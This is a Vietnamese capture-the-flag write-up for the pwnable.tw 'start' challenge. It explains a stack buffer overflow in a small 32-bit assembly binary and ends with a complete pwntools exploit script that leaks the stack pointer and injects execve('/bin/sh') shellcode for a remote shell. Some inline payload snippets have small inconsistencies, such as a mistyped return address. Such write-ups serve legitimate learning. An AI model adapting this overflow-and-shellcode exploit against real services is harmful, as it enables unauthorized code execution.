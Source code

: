 # [Start] [[pwnable.tw](https://pwnable.tw/)]

>Đây là bài đầu tiên trong chuỗi các bài ```pwn``` (Mình dự định làm các ```chall``` về ```pwn``` trong thời gian sắp tới để học hỏi thêm @.@ và viết ```writeup``` chia sẻ những thứ mình học được).
>
>Trong writeup mình viết theo cách thức mà mình hiểu có thể chưa đúng. Mong mọi người góp ý thêm.


>Just a start.
>
>nc chall.pwnable.tw 10000
>
>[start](https://pwnable.tw/static/chall/start)

Let's start

Cũng như khi làm các ```chall``` về ```RE``` mình thường check kiểu file và thử tìm kiếm một vài strings và thử chạy để có thể có thêm một vài thông tin định hướng cách làm blah blah...

Check kiểu file:

![File type]({{ site.url }}/assets/start_file_type.PNG)

Liệt kê strings:

![Enumrate String]({{ site.url }}/assets/start_strings.PNG)

Chạy thử:

![Run]({{ site.url }}/assets/start_run.PNG)


Qua việc check kiểu file mình có thể thấy đây là file ```ELF 32bit``` (Cái này mình chỉ dùng để mở cho đúng IDA hoy ^^)

Tiếp theo liếc qua các string và để ý đến 2 string đầu là:

```hCTF:hthe hart hs sthLet'```

và

```start.s```

Dựa vào string đầu tiên có thể thấy string này bị đảo ngược(4 kí tự) so với string được in ra khi chạy thử nên có thể lờ mờ đoán rằng string này được push vào stack theo kiểu một số ```DWORD```

Đại loại như sau:

Giả sử ta có strings ```"Let's start the CTF:"``` thường sẽ sử dụng các hàm ```copy``` để gán nó cho một biến trong stack

Nhưng cũng có 1 cách khác là sử dụng push đề copy nó vào stack như sau:


```c
push    ':FTC'
push    ' eht'
push    ' tra'
push    'ts s'
push    ''teL'
```

Điều này có thể giải thích vì sao liệt kê string lại bị ngược như vậy

Tiếp đó là xâu ```start.s``` Dựa vào xâu này mình đoán người ra đề code bằng ```asm``` trên linux

OK đó là tất cả những gì mình có thể thấy khi kiểm tra và chạy thử file

Load chall vào IDA để xem tiếp vậy

![IDA loaded]({{ site.url }}/assets/start_ida.PNG)

Có thể thấy đoạn push string chuẩn như chúng ta nhận định ban đầu

Chương trình được chia làm 2 đoạn là ```_start``` và ```_exit```

Khi bắt đầu ```_start``` ta thấy có 2 lệnh push là

```c
push    esp
push    offset _exit
```

Để đó chưa rõ làm gì

Đọc tiếp thấy ```chall``` này sử dụng ngắt ```int 80h``` để gọi các ```system call``` trong linux kernel

với EAX = 4 ```sys_write``` sẽ được gọi

với EAX = 3 ```sys_read``` sẽ được gọi

Ở ```_exit``` EAX = 1 ```sys_exit``` sẽ được gọi

Chi tiết có thể tham khảo các syscall [tại đây](https://syscalls.kernelgrok.com/)

Bây giờ xem xem có thể khai thác được tại đâu. Với các dạng bài cần ```nc``` vào server như này thì dự là ```flag``` sẽ được đặt trên server. Player sẽ khai thác và đọc flag (nghe EZ v~)

Trong bài này ta thấy. ```sys_read``` cho phep đọc vào tận 0x3C kí tự trong khi ở đoạn tiếp theo chương trình chỉ cộng ```esp``` với 0x14 rồi return

Nếu ta nhập một chuỗi > 0x14 kí tự thì sao???

Bummmm.....! Stack overflow và sau khi lệnh return chương trình sẽ nhảy đến một chỗ nào đó và thực hiện tiếp

Như vậy. cần 2 phần để có thể thực hiện đoạn code mà mình mong muốn với chương trình này

Một là địa chỉ để sau lệnh ```retn``` chương trình quay lại đó thực thi

Hai là đoạn code mà bạn mong muốn chương trình sẽ thực hiện

Với 2 mình tìm được một đoạn shellcode(23 bytes) trên mạng. Có thể tham khảo [tại đây](http://shell-storm.org/shellcode/files/shellcode-827.php)

Giờ ta chỉ cần tìm được đỉa chỉ trả về đề run đoạn shellcode là xong (Nghe vẫn EZ =)) ).

sau ```sys_read``` chương trình cộng ```esp``` với 0x14 - Đây chính là vùng chứa ```offset _exit``` để thực thi sau ```retn```

Vậy nếu ghi đè địa chỉ này thành ```0x08048087``` thì chương trình sẽ quay lại ```0x08048087``` và gọi ```sys_write``` một lần nữa in ra giá trị mà 4 byte đầu tiên chính là giá trị của esp trong lệnh ```push esp``` ở đầu chương trình sau nó nó tiếp tục gọi ```sys_read```. =)) Như vậy ta có thể làm theo 2 bước như sau:

**B1:** Lấy giá trị của ```esp```

**B2:** Chèn shellcode để gọi ra "/bin/sh"

(Nghe tiếp tục EZ)

Để thực hiện **B1** ta cần đoạn payload như sau

```python
    payload = 20 * 'a' + '\x87\x90\x04\x08'
```

Sau đó sẽ xử lý giá trị nhận được và có được ```esp```

Tiếp tục **B2** payload sẽ là:

```python
payload2 = '20' * a + <địa chỉ esp + 0x14> + shelcode
```

fullcode:

```python
from pwn import * 

host = "chall.pwnable.tw"
port = 10000

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

con = remote(host, port)
print con.recv(1024)

get_sp_string = 20 * 'a' + '\x87\x80\x04\x08'
con.send(get_sp_string)
sp_addr = u32(con.recv(1024)[0:4])

real_shellcode = 20 * 'a' + p32(sp_addr + 20) + shellcode
con.send(real_shellcode)
con.interactive()
con.close()
```
